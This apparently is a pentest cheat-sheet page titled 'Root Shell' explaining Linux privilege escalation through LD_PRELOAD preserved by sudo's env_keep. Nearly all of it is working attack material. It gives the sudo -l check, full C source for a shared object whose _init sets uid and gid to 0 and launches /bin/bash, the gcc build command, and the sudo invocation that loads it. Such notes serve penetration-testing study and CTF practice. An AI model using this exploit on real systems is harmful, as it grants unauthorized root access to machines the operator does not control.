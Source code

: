 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Root Shell

## <mark style="color:purple;">Abusing LD\_PRELOAD</mark>

* Verify the `LD_PRELOAD` option in `env_keep`

{% code overflow="wrap" lineNumbers="true" %}
```bash
$ sudo -l
#Results
Matching Defaults entries for user on ip-0-0-0-0:
    env_reset, env_keep+=LD_PRELOAD
```
{% endcode %}

* Write simple script in C

{% code title="shell.c " overflow="wrap" lineNumbers="true" %}
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```
{% endcode %}

***

* Then compile into a shared library

{% code overflow="wrap" lineNumbers="true" %}
```bash
gcc shell.c -fPIC -shared -o shell.so -nostartfiles
```
{% endcode %}

{% hint style="info" %}
The extension `.so` represents a shared object
{% endhint %}

***

* Run a sudo command specifying the LD\_PRELOAD option with the script

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong>sudo LD_PRELOAD=/home/user/ldpreload/shell.so $command
</strong></code></pre>

{% hint style="info" %}
The `$command` in this case is any comand with sudo permissions found by using `sudo -l`
{% endhint %}

***


